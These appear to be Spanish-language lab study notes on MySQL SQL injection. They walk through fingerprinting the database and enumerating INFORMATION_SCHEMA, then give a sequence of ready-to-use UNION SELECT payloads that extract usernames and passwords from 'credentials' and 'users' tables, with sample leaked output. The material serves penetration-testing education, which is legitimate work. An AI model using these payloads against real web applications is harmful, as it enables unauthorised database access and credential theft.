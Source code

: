 ### Enumeración de Bases de Datos con SQL Injection

---

### **Fingerprinting del DBMS**

Antes de enumerar datos, debemos identificar el tipo de sistema de gestión de bases de datos (DBMS) que estamos tratando, ya que cada DBMS tiene sus propias consultas específicas.

#### **Pruebas comunes para identificar MySQL**

1. **Versión del DBMS**:
    
    sql
    
    CopiarEditar
    
    `SELECT @@version;`
    
    - **Salida esperada (MySQL/MariaDB)**: `10.3.22-MariaDB-1ubuntu1`.
    - **Salida para MSSQL**: Una versión de Microsoft SQL Server.
    - **Otros DBMS**: Error.
2. **Operación matemática simple**:
    
    `SELECT POW(1,1);`
    
    - **Salida esperada**: `1`
    
1. **Prueba ciega (Blind)**:
    
    `SELECT SLEEP(5);`
    
    - **Efecto esperado (MySQL)**: La página tarda 5 segundos en responder.

---

### **Base de datos `INFORMATION_SCHEMA`**

La base de datos `INFORMATION_SCHEMA` contiene metadatos de todas las bases de datos, tablas y columnas en el servidor. Es esencial para construir consultas que nos permitan extraer datos específicos.

#### **Consultas útiles en `INFORMATION_SCHEMA`**

1. **Obtener bases de datos (tabla `SCHEMATA`)**:
    
    `SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;`
    
2. **Obtener tablas en una base de datos específica (`TABLES`)**:
    
    `SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA='nombre_base_datos';`
    
3. **Obtener columnas en una tabla específica (`COLUMNS`)**:
    
    sql
    
    CopiarEditar
    
    `SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='nombre_tabla';`
    

---

### **Inyección SQL para enumerar datos**

La técnica de inyección SQL permite construir estas consultas dinámicamente mediante el uso de `UNION SELECT`. A continuación, se detalla cómo extraer información clave.

---

#### **Paso 1: Identificar bases de datos**

Podemos enumerar las bases de datos en el servidor usando la tabla `SCHEMATA`:

**Payload**:

sql

CopiarEditar

`' UNION SELECT 1, SCHEMA_NAME, 3, 4 FROM INFORMATION_SCHEMA.SCHEMATA-- -`

**Resultado esperado**:

- Se mostrarán nombres de bases de datos como:
    
    CopiarEditar
    
    `mysql, information_schema, performance_schema, dev, ilfreight`
    

---

#### **Paso 2: Identificar la base de datos actual**

Para conocer la base de datos que está siendo utilizada por la aplicación web:

**Payload**:

`' UNION SELECT 1, DATABASE(), 3, 4-- -`

**Resultado esperado**:

- Devuelve el nombre de la base de datos actual, por ejemplo: `ilfreight`.

---

#### **Paso 3: Enumerar tablas de una base de datos**

Una vez identificada una base de datos interesante, obtenemos las tablas usando la tabla `TABLES`:

**Payload**:

`' UNION SELECT 1, TABLE_NAME, TABLE_SCHEMA, 4 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA='dev'-- -`

**Resultado esperado**:

- Muestra las tablas presentes en la base de datos `dev`:
    
    `credentials, framework, pages, posts`
    

---

#### **Paso 4: Enumerar columnas de una tabla**

Después de identificar una tabla interesante, como `credentials`, enumeramos sus columnas usando la tabla `COLUMNS`:

**Payload**:

`' UNION SELECT 1, COLUMN_NAME, TABLE_NAME, TABLE_SCHEMA FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='credentials'-- -`

**Resultado esperado**:

- Muestra las columnas presentes en la tabla `credentials`:
    
    `username, password`
    

---

#### **Paso 5: Extraer datos de una tabla**

Conociendo la base de datos (`dev`), la tabla (`credentials`) y las columnas (`username`, `password`), formamos una consulta para extraer los datos:

**Payload**:

`' UNION SELECT 1, username, password, 4 FROM dev.credentials-- -`

**Resultado esperado**:

- Muestra los datos de la tabla `credentials`:
    
    sql
    
    CopiarEditar
    
    `admin | password123 user  | qwerty456`
    

---

### **Resumen del proceso**

1. **Fingerprinting**:
    
    - Identifica el tipo de DBMS usando `@@version`, `POW(1,1)` o `SLEEP(5)`.
2. **Enumeración de bases de datos**:
    
    - Usa `SCHEMATA` para listar todas las bases de datos.
3. **Enumeración de tablas**:
    
    - Usa `TABLES` para listar tablas en una base de datos específica.
4. **Enumeración de columnas**:
    
    - Usa `COLUMNS` para listar columnas en una tabla específica.
5. **Extracción de datos**:
    
    - Construye una consulta `UNION SELECT` para extraer los datos deseados.

---

### **Notas importantes**

- **Precaución con datos predeterminados**:
    
    - Bases de datos como `mysql`, `information_schema` y `performance_schema` son estándar y no suelen contener información útil.
- **Uso de datos "basura"**:
    
    - Completa las columnas no necesarias con valores como `NULL` o números (`1, 2, 3`) para evitar errores.
- **Referencias cruzadas**:
    
    - Utiliza el operador `.` para referenciar tablas de bases de datos distintas, como en `dev.credentials`.

Esto te permitirá realizar una enumeración completa del servidor de bases de datos.


```SQL injection
' UNION SELECT 1,TABLE_NAME,3,4 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA='ilfreight'-- -
```


```
' UNION SELECT 1,COLUMN_NAME, TABLE_NAME, TABLE_SCHEMA FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users'-- -
```

![[Pasted image 20250118124145.png]]

```
' UNION SELECT 1,NULL,username,password FROM ilfreight.users-- -
```

![[Pasted image 20250118124411.png]]